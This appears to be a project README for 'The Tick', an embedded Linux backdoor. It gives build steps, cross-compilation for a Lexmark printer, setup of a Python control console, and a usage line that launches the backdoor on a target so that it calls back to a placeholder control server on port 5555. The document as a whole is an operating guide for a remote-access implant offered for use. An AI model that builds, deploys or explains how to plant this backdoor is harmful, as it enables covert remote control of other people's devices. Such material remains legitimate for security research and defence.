


# The Tick

A simple embedded Linux backdoor.


## Compiling

The Tick depends only on libcurl, so make sure you have the corresponding development package. For example on Debian based distributions you would do the following:

```
sudo apt-get install libcurl-dev
```

Once the dependencies are installed just run the makefile:

```
make clean
make
```

When cross-compiling for supported platforms, the dependency resolution and compilation is done automatically for you. Currently the only supported cross-compiling platform is the Lexmark CX310DN printer. Consult the sources for more details.

## Installing

Obtaining persistence on the backdoor will depend heavily on the target platform, and therefore is not documented here.

The control console requires no installation, but may have unresolved dependencies. Run the following command to ensure all dependencies are properly installed (note this does not need sudo):

```
pip install --upgrade -r requirements.txt
```

In most Linux desktop environments the following "Tick.desktop" file will create an icon you can double click to run the console:

```
[Desktop Entry]
Encoding=UTF-8
Value=1.0
Type=Application
Name=The Tick
GenericName=The Tick
Comment=An embedded Linux backdoor
Icon=/opt/thetick/doc/logo.png
Exec=/opt/thetick/tick.py
Terminal=true
Path=/opt/thetick/
```

The exact location for the Tick.desktop file may vary across Linux distributions but generally placing it in the desktop should work. Make sure to edit the path to wherever you downloaded The Tick (/opt/thetick in the above example).

## Usage

To run the backdoor binary on the target platform, set the control server hostname and port as command line options. For example:

```
./ticksvc control.example-domain.com 5555
```

At the control server, you may want to run the console inside a GNU screen instance or similar. Here are a few screenshots illustrating what the console is capable of:

Command line switches


Interactive console help

